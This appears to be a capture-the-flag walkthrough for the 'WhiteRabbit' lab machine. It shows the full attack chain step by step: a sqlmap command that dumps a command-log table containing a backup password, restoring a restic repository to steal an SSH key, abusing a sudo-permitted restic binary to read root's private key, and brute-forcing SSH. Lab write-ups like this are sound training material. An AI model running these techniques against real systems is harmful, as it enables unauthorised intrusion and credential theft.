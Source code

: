 
![WhiteRabbit](https://github.com/user-attachments/assets/72f68fcd-bb04-4d1a-a924-29240a5e82ca)

we manage to find some subdomains 
	status.whitrabbit.htb then just bruteforcing directories for interesting files 

--> first in http://status.whiterbbit.htb/status/temp/ we trigger to have some new domains

	here are all we found 

		ddb09a8558c9.whiterabbit.htb	

		a668910b5514e.whiterabbit.htb	

		28efa8f7df.whiterabbit.htb

so the few we got , we take the last one for pentesting it 
			we came onto a todo list website ; 
		
then trying to see all to do , we see http://a668910b5514e.whiterabbit.htb/en/gophish_webhooks
we saw this lines 

				Database Interactions

		    User Validation: Checks if the user’s email from the event is present in the database.

		    Phishing Score Update: Depending on the user’s action, their phishing susceptibility score is updated. Actions like clicking a phishing link or submitting data through a phishing form negatively impact their score.

		    Debugging and Error Handling: Notably, there is a debug node labeled "DEBUG: REMOVE SOON" that aids in troubleshooting by providing error messages when things go awry. This node is temporary and will be removed once the workflow is fully operational and stable.

		    Conditional Logic: The workflow includes conditions to handle different scenarios, such as actions taken by the user (e.g., clicking a link or submitting data), and adjusts the phishing score accordingly.

Understand the trully purpose of that , we're figure out that the target should be vulnerable to  sqli 
		So using sqlmap , this is the full command , i ommitted the steps to retrieve database and table we interest on

# Sqli testing

		sqlmap -u http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d --method POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Linka"}' -p email --proxy http://127.0.0.1:8080/ --batch --dump --level=5 --risk=3 -D temp -T command_log --flush

![Screenshot_2025-04-11_06_00_45](https://github.com/user-attachments/assets/a2e354ff-c95b-40d9-bde5-c748c2e20dfe)


# Note  that  it could take a bit longer but hopefully we do it right , alternatively , i redirect the traffic to my burp instance crawler this is why you see --proxy tag 


						+----+---------------------+--------------------------------------------------
				----------------------------+
				| id | date
				| command
				|
				+----+---------------------+--------------------------------------------------
				----------------------------+
				| 1 | 2024-08-30 10:44:01 | uname -a
				|
				| 2 | 2024-08-30 11:58:05 | restic init --repo
				rest:http://75951e6ff.whiterabbit.htb
				|
				| 3 | 2024-08-30 11:58:36 | echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw  >
				.restic_passwd
				|
				| 4 | 2024-08-30 11:59:02 | rm -rf .bash_history
				|
				| 5 | 2024-08-30 11:59:47 | #thatwasclose
				|
				| 6 | 2024-08-30 14:40:42 | cd /home/neo/ && /opt/neo-password-generator/neo-
				password-generator | passwd |
				+----+---------------------+--------------------------------------------------
				----------------------------+


Ok , let's thinking , that seems to be a restic manager repo , so the user inits a restic on the new subdomain 

let's try to enum available repos in this . 
			restic --repo rest:http://75951e6ff.whiterabbit.htb snapshots
 					so paste the password once prompted

 what we do now is to restore the repo in our machine : 
 			restic --repo rest:http://75951e6ff.whiterabbit.htb restore [id] --target path_you_wanna_save

 Once done , you'll find a 7-ZIP archive file in it  that's locked ; crack it and then use the private inside to log as bobn on the system 

 			ssh -i id_rsa bob@whiterabbit.htb -p 2222

 Logging in as bob 

 			bob@ebdce80611e9:~$ sudo -l
					Matching Defaults entries for bob on ebdce80611e9:
					    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

					User bob may run the following commands on ebdce80611e9:
					    (ALL) NOPASSWD: /usr/bin/restic
# Exploitation TIme 

	init a repo : sudo /usr/bin/restic init -r u //I use u as repo name et also set u as pass , use whatever you want 
	backup the root folder : sudo /usr/bin/restic -r u backup /root/
	list element inside of backup you do : sudo restic -r u ls latest

		repository fe1f08a9 opened (version 2, compression level auto)
		[0:00] 100.00%  1 / 1 index files loaded
		snapshot 0b7e5bf4 of [/root] filtered by [] at 2025-04-11 15:26:59.73174016 +0000 UTC):
		/root
		/root/.bash_history
		/root/.bashrc
		/root/.cache
		/root/.profile
		/root/.ssh
		/root/morpheus
		/root/morpheus.pub
	got interesting things , move on to grab morpheus key :
			sudo restic -r u dump latest /root/morpheus

	Now , copy the ouput and get connected as morpheus on 22 ssh port  and enjoy the user's flag
![Screenshot_2025-04-11_10_35_48](https://github.com/user-attachments/assets/3a99d21d-d04d-40b3-ae3b-b78a1edf50e1)
then  the root way is a bit tricky ; go check in /opt for neo-geo-generator then brute the ssh to log as neo and make sudo su to grab the last flag
![Screenshot_2025-04-11_11_00_59](https://github.com/user-attachments/assets/8c034560-078c-46d2-a807-c4d130b6d4f3)

 
 
![Screenshot_2025-04-11_11_01_45](https://github.com/user-attachments/assets/42661c86-21d2-4a71-bd2d-e2a2903342fb)


